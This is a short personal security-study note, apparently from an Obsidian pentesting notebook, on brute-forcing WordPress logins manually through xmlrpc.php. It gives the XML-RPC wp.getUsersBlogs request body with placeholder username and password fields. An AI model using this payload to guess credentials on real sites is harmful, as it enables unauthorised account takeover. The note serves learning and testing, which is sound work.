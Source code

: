 ```yaml
---
tags:
  - "#web"
  - "#scripting"
  - "#bash"
  - "#tools"
  - "#wordpress"
---
```

If we want to use brute forcing to discover valid credentials on a [[WordPress]] web page as the same way [[WPScan]] does but manually, we have to make a POST query to the file **xmlrpc.php** with this structure:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>\{\{your username\}\}</value></param>
<param><value>\{\{your password\}\}</value></param>
</params>
</methodCall>   `
```

![[Pasted image 20250126173135.png#center| ]]